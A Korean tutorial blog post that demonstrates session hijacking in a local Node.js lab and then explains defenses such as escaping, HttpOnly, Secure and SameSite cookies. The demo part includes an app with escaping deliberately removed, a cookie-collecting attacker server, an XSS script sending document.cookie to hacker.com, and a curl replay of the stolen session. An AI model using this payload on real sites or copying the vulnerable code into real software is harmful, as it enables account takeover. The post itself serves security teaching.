"로그인된 사용자의 세션을 훔쳐서 그 사람인 것처럼 행동할 수 있다면?"

웹 개발자라면 한 번쯤 이런 질문을 받아보셨을 것이다. 바로 `세션 하이재킹(Session Hijacking)`이라는 공격 기법이다.

이번 포스트에서는 `Node.js`로 직접 취약한 인증 시스템을 구현하고 실제 공격을 시연한 후 방어 방법까지 단계별로 알아보겠다.



## 1. 세션과 쿠키: 웹 인증의 기본 이해하기

### HTTP는 상태가 없다(Stateless)

`HTTP` 프로토콜은 **무상태(Stateless)** 특성을 가집니다. 즉, 서버는 이전 요청을 기억하지 못한다. 그렇다면 어떻게 로그인 상태를 유지할까요?

**답은 세션(Session)과 [쿠키(Cookie)](https://www.yolog.co.kr/post/http-cookie)입니다.**

### 웹 인증 프로세스

1.  **로그인 요청**: 사용자가 아이디/비밀번호 입력
2.  **인증 검증**: 서버가 DB와 대조하여 신원 확인
3.  **세션 생성**: 인증 성공 시 서버가 고유한 세션 ID 발급
4.  **[쿠키](https://www.yolog.co.kr/post/http-cookie) 전송**: 세션 ID를 쿠키에 담아 브라우저로 전송
5.  **상태 유지**: 이후 모든 요청에 [쿠키](https://www.yolog.co.kr/post/http-cookie)가 자동으로 포함됨

이제 이 과정을 코드로 직접 구현해보겠다.

---

## 2. 취약한 인증 시스템 구현하기

### 기본 서버 구조와 세션 저장소

먼저 메모리 기반의 간단한 세션 저장소를 만들어보겠다:

```javascript
const database = {
  products: ['군고구마', '고구마 아이스크림'],
  // 세션 저장소 추가 - 실제로는 Redis나 DB를 사용한다
  session: {},
};
```

### 로그인 핸들러 구현

실제 서비스에서는 **bcrypt**, **jose** 같은 해싱 라이브러리를 사용하지만, 이해를 돕기 위해 간단하게 구현하겠다:

```javascript
const login = (req, res) => {
  // 일단은 timestamp로 세션 아이디를 만듬
  const createSession = () => `session-id-${Date.now()}`;
  // 사용자 찾는 함수
  const findUser = () => ({
    name: 'Matthew',
    email: 'dydals3440@gmail.com',
  });

  const sid = createSession();
  const user = findUser();

  // 로그인 완료 -> 세션 정보 저장
  database.session = {
    [sid]: user,
  };

  // 참고: 301은 영구 리다이렉션이라 브라우저가 한 번 받으면 계속 캐시하는 특성이 있다.
  // 사용자한테는 "/"로 redirection하고
  // 세션 아이디를 쿠키에 저장
  res.statusCode = 302;
  res.setHeader('Location', '/');
  res.setHeader('Set-Cookie', `sid=${sid}`);
  res.end();
};

// 라우팅 설정
const server = http.createServer((req, res) => {
  const { pathname } = new URL(req.url, `http://${req.headers.host}`);

  if (pathname === '/login') return login(req, res);
  if (pathname === '/logout') return logout(req, res);
  if (pathname === '/product') return postProduct(req, res);

  index(req, res);
});

server.listen(8080, () => {
  console.log('🚀 Server is running on http://localhost:8080');
});
```

### 쿠키 파싱 유틸리티

브라우저가 보낸 쿠키를 파싱하는 함수가 필요한다:

```javascript
const parseCookie = (req) => {
  // 없을 수 도 있으니 fallback 처리
  // 쿠키가 여러개 올 수 있으니 .split()
  const cookies = (req.headers.cookie || '').split(';');
  // 순회하면서, 오브젝트로 만듬
  const cookieObject = {};
  cookies.forEach((cookie) => {
    const [name, value] = cookie.trim().split('=');
    // 조금 더 정확히할려면 decodeURIComponent 처리
    if (name && value) {
      cookieObject[decodeURIComponent(name)] = decodeURIComponent(value);
    }
  });
  // 완성된 쿠키 오브젝트 반환
  return cookieObject;
};
```

### 세션 기반 사용자 인증 확인

이제 `index` 페이지에서 세션을 확인하여 사용자 정보를 표시한다:

```javascript
const index = (req, res) => {
  // sid를 쿠키로 부터 뽑아냄
  // 쿠키를 객체형식으로 받음 없을 수 도 있으니 fallback 처리
  const sid = parseCookie(req).sid || '';
  // 그러면 이제 sid를 통해서 서버 DB 에서 세션 저장소를 조회 가능
  // 인증된 유저라면 유저 정보가 있음.
  const userAccount = database.session[sid] || '';
  // 이를 기반으로 동적 HTML 을 생성

  res.setHeader('Content-Type', 'text/html');
  res.write(`
    <!DOCTYPE html>
    <html>
    <head>
       <meta charset="utf-8">
       <style>input {width: 600px;}</style>
    </head>
    <body>
    ${
      userAccount
        ? `<p>안녕하세요, ${userAccount.name}, ${userAccount.email}</p>`
        : '<p>손님</p>'
    }
    <form method="POST" action="/product">
    <input name="product" type="text"/>
    <button type="submit">Add</button>
    </form>
    <ul>
    ${database.products.map((product) => `<li>${product}</li>`).join('')}
    </ul>
    </body>
    </html>`);
  res.end();
};
```

### 로그아웃 구현

세션을 삭제하고 쿠키를 제거하는 로그아웃 기능을 구현해보겠다:

```javascript
// 해당 세션 아이디를 지우면 됨
const logout = (req, res) => {
  const sid = parseCookie(req)['sid'] || '';

  delete database.session[sid];

  // 301 으로 redirection 하고
  // 쿠키에 있는 sid 삭제
  res.statusCode = 302;
  res.setHeader('Location', '/');
  res.setHeader('Set-Cookie', 'sid=;Max-Age=-1');
  res.end();
};
```

### 실행 결과

서버를 실행하고 테스트해보겠다:

```bash
node vulnerable-app.js
# http://localhost:8080 접속
```

**1. 초기 화면 (로그인 전)**


**2. 로그인 후 화면**


`/login` 경로 접속 시 세션이 생성되고, 사용자 정보가 표시된다.

**3. 로그아웃 후 화면**



로그아웃 시 `Max-Age=-1`로 쿠키가 즉시 만료되어 다시 손님 상태로 돌아갑니다.

---

## 3. 세션 하이재킹 공격 시연

이제 본격적으로 **세션 하이재킹 공격**을 시연해보겠다.

### [XSS](https://www.yolog.co.kr/post/security-xss)를 이용한 쿠키 탈취 시나리오

**공격 시나리오:**

1. 공격자가 [XSS](https://www.yolog.co.kr/post/security-xss) 취약점을 이용해 악성 스크립트 주입
2. 다른 사용자가 페이지 방문 시 스크립트 실행
3. 스크립트가 세션 쿠키를 공격자 서버로 전송
4. 공격자가 탈취한 세션으로 피해자 계정 접근

### 공격자 서버 구축

먼저 탈취한 쿠키를 수집할 공격자 서버를 만들어보겠다:

**attacker-server.js**

```javascript
const http = require('http');

// 요청 URL을 로깅
// 탈취한 정보가 요청 URL로 옴.
const log = (req, res) => console.log(`${req.method} ${req.url}`);

const server = http.createServer((req, res) => {
  // 모든 요청을 기록한다.
  log(req, res);

  // CORS 헤더 추가 (크로스 오리진 요청 허용)
  res.setHeader('Access-Control-Allow-Origin', '*');
  res.setHeader('Access-Control-Allow-Methods', 'GET, POST, OPTIONS');
  res.setHeader('Access-Control-Allow-Headers', 'Content-Type');

  // 빈 응답을 보냈다.
  res.end();
});

// 어플리케이션 서버와 다른 포트를 사용해 요청 대기
server.listen(8081, () => {
  console.log('Attacker server is running on port 8081');
});
```

### 로컬 DNS 설정 (실습 환경)

실제 공격 시나리오를 재현하기 위해 로컬 DNS를 설정한다:

```bash
sudo vi /private/etc/hosts

# 아래 내용 추가
127.0.0.1   matthew.com
127.0.0.1   hacker.com
```



**matthew.com**: 정상 서비스 도메인 (포트 8080)
**hacker.com**: 공격자 서버 도메인 (포트 8081)

### [XSS](https://www.yolog.co.kr/post/security-xss) 취약점 활성화

실습을 위해 일시적으로 **이스케이프 처리를 제거**한다:

> [!WARNING]
> **경고: 실제 서비스에서는 절대 이렇게 하지 마세요!**

```javascript
const postProduct = (req, res) => {
  let body = '';
  req.on('data', (chunk) => {
    body = body + chunk.toString();
  });

  req.on('end', () => {
    const { product } = queryString.parse(body);
    //// 임시 제거
    // const escapedProduct = product
    //   .replace(/&/g, '&amp;')
    //   .replace(/</g, '&lt;')
    //   .replace(/>/g, '&gt;');

    database.products.push(product);

    res.statusCode = 302;
    res.setHeader('Location', '/');
    res.end();
  });
};
```

### 공격 실행

이제 두 서버를 모두 실행하고 공격을 시연해보겠다:

```bash
# 터미널 1: 메인 서버 실행
node vulnerable-app.js

# 터미널 2: 공격자 서버 실행
node attacker-server.js
```

**1단계: 로그인하여 세션 생성**

- `http://matthew.com:8080/login` 접속
- 세션이 생성되고 쿠키가 브라우저에 저장됨

**2단계: 악성 스크립트 주입**

상품 입력란에 다음 악성 스크립트를 입력한다:

```html
<script>
  // document.cookie로 현재 페이지의 모든 쿠키 접근
  fetch('http://hacker.com:8081/steal?cookie=' + document.cookie);
</script>
```



이 스크립트는:

1. `document.cookie`로 현재 페이지의 **모든 쿠키**를 읽음
2. `fetch()`를 통해 공격자 서버로 **HTTP 요청** 전송
3. 쿠키 값을 **쿼리 파라미터**로 포함시킴

**3단계: 쿠키 탈취 확인**

브라우저 개발자 도구의 네트워크 탭을 확인하면:



공격자 서버의 로그를 확인하면:



> [!WARNING]
> **세션 ID가 성공적으로 탈취되었다!** 🚨

### 탈취한 세션으로 계정 접근

이제 공격자는 `탈취한 세션 ID`를 사용해 **Matthew**의 세션을 가지고 있는 것처럼 행동할 수 있다:

```bash
curl http://matthew.com:8080 -H "Cookie: sid=session-id-1756852495508"
```

응답 결과:



**공격자가 Matthew의 계정에 완전히 접근했다!** 😱

이것이 바로 `세션 하이재킹(Session Hijacking)`입니다.

> [!NOTE]
> **"하이재킹(Hijacking)"의 어원**

> 운항 중인 비행기를 납치하는 것을 하이재킹이라고 부르듯이, 실행 중인 세션을 가로채는 이 공격을 `세션 하이재킹`이라고 부릅니다.

---

## 4. 세션 하이재킹 방어 전략

### 방법 1: [XSS](https://www.yolog.co.kr/post/security-xss) 취약점 제거

가장 근본적인 해결책은 **[XSS 공격](https://www.yolog.co.kr/post/security-xss) 자체를 차단**하는 것입니다:

```javascript
const postProduct = (req, res) => {
  // ... 생략 ...

  req.on('end', () => {
    const { product } = queryString.parse(body);

    // HTML 특수문자 이스케이프 처리
    const escapedProduct = product
      .replace(/&/g, '&amp;') // & → &amp;
      .replace(/</g, '&lt;') // < → &lt;
      .replace(/>/g, '&gt;'); // > → &gt;

    database.products.push(escapedProduct);
    // ... 생략 ...
  });
};
```

### 방법 2: HttpOnly 쿠키 플래그

**HttpOnly** 플래그는 JavaScript에서 쿠키 접근을 차단하는 강력한 방어 메커니즘입니다:

**HttpOnly 플래그의 효과:**

- `document.cookie`로 접근 불가
- [`XSS` 공격](https://www.yolog.co.kr/post/security-xss)으로부터 세션 쿠키 보호
- `HTTP` 요청에는 정상적으로 포함됨

이제 로그인 함수를 수정해보겠다:

```javascript
const login = (req, res) => {
  const createSession = () => `session-id-${Date.now()}`;
  const findUser = () => ({
    name: 'Matthew',
    email: 'dydals3440@gmail.com',
  });

  const sid = createSession();
  const user = findUser();

  database.session = {
    [sid]: user,
  };

  res.statusCode = 302;
  res.setHeader('Location', '/');
  // HttpOnly 디렉티브 추가
  res.setHeader('Set-Cookie', `sid=${sid}; HttpOnly`);
  res.end();
};
```

### HttpOnly 적용 후 결과

동일한 악성 스크립트를 주입해도:



네트워크 요청은 발생하지만 **쿠키 값이 비어있다**.

공격자 서버 로그:



**쿼리스트링에 쿠키값이 비어있다는 것을 확인할 수 있다.**

---

## 5. 추가적인 보안 강화 방법

### 프로덕션에서 필수! 쿠키 보안 완전 정복

위에서 `HttpOnly` 하나만 추가했지만, 실제 서비스에서는 이것만으로는 부족한다.

아래와 같이 다양한 `쿠키 디렉티브`를 추가할 수 있다.

```javascript
const login = (req, res) => {
  // ... 생략 ...

  // 👉 처음에는 이렇게만 했었는데...
  // res.setHeader('Set-Cookie', `sid=${sid}`);

  // 👉 보안 이슈 터지고 난 후...
  const cookieOptions = [
    `sid=${sid}`,
    'HttpOnly', // [XSS 공격](https://www.yolog.co.kr/post/security-xss) 방어
    'Secure', // HTTPS에서만 전송 (개발 환경에서는 빼세요!)
    'SameSite=Strict', // CSRF 공격 방어
    'Path=/', // 특정 경로에서만 사용
    'Max-Age=3600', // 1시간 후 자동 만료 (너무 길면 위험!)
  ].join('; ');

  res.setHeader('Set-Cookie', cookieOptions);
  res.end();
};
```

### 🎯 각 플래그가 막아주는 공격

> ⚠️ **중요**: SameSite는 CSRF를 "어느 정도" 막아주지만, 완벽한 방어는 아닙니다!  
> 진짜 CSRF 방어는 **CSRF 토큰**이나 **Custom Header 검증**이 필요한다.

| 플래그       | 언제 쓰나요?        | 막아주는 공격                                                  | 주의사항                      |
| ------------ | ------------------- | -------------------------------------------------------------- | ----------------------------- |
| **HttpOnly** | 필수! 무조건 써야함 | [XSS](https://www.yolog.co.kr/post/security-xss)로 쿠키 훔치기 | 개발자 도구에서도 안 보임     |
| **Secure**   | HTTPS 사용 시 필수  | 와이파이 해킹                                                  | localhost에서는 제외          |
| **SameSite** | 외부 링크가 있다면  | CSRF 공격                                                      | Strict는 UX에 영향 줄 수 있음 |
| **Max-Age**  | 민감한 서비스라면   | 세션 고정                                                      | 너무 짧으면 UX 나빠짐         |

### 🛡️ 더 강력한 보안을 위한 3가지 테크닉

#### 1. 예측 불가능한 세션 ID 만들기

```javascript
const crypto = require('crypto');

// ❌ 나쁜 예: timestamp만 사용 (예측 가능!)
const badSession = () => `session-${Date.now()}`;

// ✅ 좋은 예: 암호학적으로 안전한 랜덤 값
const createSecureSession = () => {
  return crypto.randomBytes(32).toString('hex');
  // 결과: 64자리 랜덤 문자열
  // "a4f8c9b2e1d7..." 같은 형태
};
```

#### 2. 중요한 작업 시 세션 재생성

```javascript
// 💡 예시: 결제 전 세션 재생성
const processPayment = async (req, res) => {
  // 1. 기존 세션 확인
  const oldSid = parseCookie(req).sid;
  const user = database.session[oldSid];

  // 2. 새 세션으로 교체 (세션 고정 공격 방어)
  delete database.session[oldSid];
  const newSid = createSecureSession();
  database.session[newSid] = user;

  // 3. 결제 처리
  await processUserPayment(user);

  // 4. 새 세션 쿠키 발급
  res.setHeader('Set-Cookie', `sid=${newSid}; HttpOnly; Secure`);
};
```

#### 3. 비정상 접속 패턴 감지

```javascript
const validateSession = (req, sid) => {
  const session = database.session[sid];

  // 🔍 의심스러운 패턴 체크
  const suspicious = [
    // IP 변경 (카페 WiFi → 집 WiFi 같은 경우도 있으니 주의)
    session.ip !== req.connection.remoteAddress,
    // User-Agent 변경 (브라우저 바뀐)
    session.userAgent !== req.headers['user-agent'],
    // 너무 빠른 요청 (봇 가능성)
    session.lastAccess && Date.now() - session.lastAccess < 100,
  ];

  if (suspicious.some((check) => check)) {
    console.warn('🚨 의심스러운 세션 활동 감지!');
    // 자동 로그아웃 또는 추가 인증 요구
    return null;
  }

  return session;
};
```

---

## 6. 실제로 쓰는 방어 전략

### 실제로 해 볼 수 있는 다양한 방어 전략

**1. AWS WAF 설정 (월 $5부터 시작)**

```javascript
// [XSS](https://www.yolog.co.kr/post/security-xss) 패턴 자동 차단 규칙
{
  "Name": "XSSProtection",
  "Statement": {
    "XssMatchStatement": {
      "FieldToMatch": { "AllQueryArguments": {} },
      "TextTransformations": [{ "Type": "HTML_ENTITY_DECODE" }]
    }
  }
}
```

**2. 세션 이상 행동 모니터링**

```javascript
class SessionMonitor {
  async checkSuspiciousActivity(session) {
    // 🌍 위치 급변 (서울 → 뉴욕 10분 내?)
    const locationJump = await this.checkGeoLocation(session);

    // 📱 디바이스 변경 (iPhone → Android?)
    const deviceChange = this.checkDeviceFingerprint(session);

    // ⚡ 비정상 속도 (1초에 100번 요청?)
    const tooFast = this.checkAccessPattern(session);

    if (locationJump || deviceChange || tooFast) {
      // 🔒 자동 로그아웃 + 재인증 요구
      this.forceReAuthentication(session);
    }
  }
}
```

---

## 마무리

### 간단하게 정리

```javascript
// 1. 입력값 이스케이프 (필수!)
const safe = input.replace(/[<>&"']/g, (c) => escapeMap[c]);

// 2. HttpOnly 쿠키 (필수!)
res.setHeader('Set-Cookie', 'sid=...; HttpOnly');

// 3. HTTPS 사용 시 Secure 추가
if (process.env.NODE_ENV === 'production') {
  cookieOptions += '; Secure';
}

// 4. CSRF 방어를 위한 SameSite
cookieOptions += '; SameSite=Strict';

// 5. 자동 로그아웃 (30분)
cookieOptions += '; Max-Age=1800';
```

### 궁금한 내용들 정리

**Q: `JWT` 쓰면 세션 하이재킹에 대하여 안전한가요?**

> A: 아니다. `JWT`도 쿠키나 `localStorage`에 저장하면 똑같이 탈취 가능하다.

**Q: `HTTPS`만 쓰면 세션 하이재킹에 대하여 안전한가요?**

> A: `네트워크 스니핑`은 막지만 [`XSS` 공격](https://www.yolog.co.kr/post/security-xss)은 막지 못한다.

**Q: 개발 환경에서 `Secure` 플래그 때문에 쿠키가 안 보여요! 때문에 세션 하이재킹에 대하여 안전한가요?**

> A: `localhost`는 예외적으로 `Secure` 없이도 동작한다. `개발/프로덕션`을 구분하여 처리할 수 있다.

---

## 핵심 정리

- **세션 하이재킹 원리**:
  - HTTP는 Stateless → 상태 유지를 위해 세션/쿠키 사용
  - 공격자가 세션 ID를 탈취하면 피해자 행세 가능
  - JavaScript로 `document.cookie` 접근 시 쿠키 탈취 가능
- **공격 방법**:
  - XSS 공격으로 악성 스크립트 주입
  - `document.cookie`로 세션 쿠키 읽기
  - 공격자 서버로 쿠키 전송
  - 탈취한 쿠키로 피해자 행세
- **방어 방법 1: HttpOnly 쿠키**:
  - JavaScript에서 쿠키 접근 차단
  - `Set-Cookie: sid=...; HttpOnly`
  - XSS 공격으로도 쿠키 탈취 불가
  - 가장 기본적이고 필수적인 방어법
- **방어 방법 2: Secure 플래그**:
  - HTTPS에서만 쿠키 전송
  - 네트워크 스니핑 공격 방어
  - 프로덕션 환경에서 필수
  - `Set-Cookie: sid=...; Secure`
- **방어 방법 3: SameSite 쿠키**:
  - CSRF 공격 방어
  - `SameSite=Strict`: 같은 사이트에서만 쿠키 전송
  - `SameSite=Lax`: GET 요청만 허용 (기본값)
  - `SameSite=None`: Secure 필수
- **방어 방법 4: 세션 타임아웃**:
  - 일정 시간 후 자동 로그아웃
  - `Max-Age=1800` (30분)
  - 탈취된 쿠키의 유효 시간 제한
- **JWT는 안전하지 않다**:
  - JWT도 쿠키/localStorage에 저장하면 탈취 가능
  - XSS 공격에는 취약
  - HttpOnly 쿠키에 저장하는 것이 안전
- **HTTPS만으로는 부족하다**:
  - 네트워크 스니핑은 막음
  - XSS 공격은 막지 못함
  - HttpOnly + Secure + SameSite 조합 필수
- **실무 권장 조합**:
  - 필수: HttpOnly 쿠키
  - 프로덕션: Secure 플래그
  - CSRF 방어: SameSite=Lax
  - 타임아웃: Max-Age 설정
  - 추가: XSS 방어 (이스케이프, CSP)

**세션 하이재킹은 신분증 도용과 같다. 공격자가 피해자의 신분증(세션 쿠키)을 훔쳐서 피해자인 척한다. HttpOnly는 신분증을 금고에 보관(JavaScript 접근 차단), Secure는 암호화 운송(HTTPS 전송), SameSite는 신분증 사용처 제한(같은 사이트만), 타임아웃은 신분증 유효기간(자동 만료)과 같다.**
